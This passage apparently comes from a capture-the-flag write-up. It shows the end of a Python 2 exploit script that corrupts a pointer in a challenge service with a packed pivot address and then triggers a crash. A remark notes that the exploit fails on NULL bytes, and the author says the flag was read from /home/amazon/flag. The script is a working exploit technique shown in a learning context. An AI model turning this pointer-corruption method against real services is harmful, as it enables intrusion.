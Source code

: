 print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

time.sleep(0.1)
data = s.recv(64)
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

time.sleep(0.1)
print s.recv(1024)

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)

(Note: this exploit fails if the address contains a NULL byte, a space or a zero, as these truncate data. During the CTF, I experienced no problems).

Now it was a matter of getting the flag. I tried ```/home/amazon/key```, which returned nothing. Next was ```/home/amazon/flag``` and that was a bingo :)

